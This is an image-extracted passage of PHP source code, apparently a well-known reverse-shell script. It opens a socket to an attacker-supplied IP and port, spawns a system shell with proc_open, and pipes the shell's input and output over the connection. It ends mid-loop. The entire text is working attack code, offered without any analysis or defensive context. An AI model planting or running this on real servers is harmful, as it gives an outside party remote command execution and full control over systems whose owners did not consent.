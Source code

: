 ```
chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
```